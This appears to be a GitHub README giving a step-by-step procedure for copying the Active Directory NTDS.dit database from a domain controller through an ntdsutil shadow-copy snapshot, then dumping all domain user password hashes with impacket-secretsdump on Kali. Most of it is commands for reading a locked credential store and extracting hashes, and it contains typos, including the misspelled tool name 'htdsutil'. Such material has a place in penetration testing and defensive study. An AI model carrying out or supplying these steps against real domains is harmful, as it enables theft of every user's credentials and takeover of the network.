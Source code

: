 # NTDS File Recovery & Domain Users Hash List

NTDS extraction using Shadow Copy method.

<br>

#### NTDS.dit File
 - Go to `C:/Windows/NTDS`.
 - Find the file `ntds.dit`.
 - Notice how you can't open/read/change this file because there is an exclusive lock on the file.

#### Open a Admin CMD Propmt
Run the following commands:
```bash
htdsutil
snapshot
Activate Instance ntds
create
list all
mount 2
```
 - The `2` in `mount 2` will be whatever number the C Drive is shown to be in the `list all` command.

![](Images/ntdsSnapshot.png)

 - Navigate to the C Drive and you will now see an extra link. Go to the location of the ntds.dit file and copy it somewhere else.

#### Cleanup
Run the following:
```bash
delete 2
quit
quit
```

 - The `2` in `delete 2` will be the same number from above, in our case it was 2.

#### Open Kali and Display Hashes
Open a temrinal and run the following:
```bash
impacket-secretsdump -ntds ntds.dit -system system.sav LOCAL
```

 - This command will take a few seconds to run but once it does you will have a complete list of domain user hashes.

 - NOTE: You will need the SYSTEM file from the registry of the machine.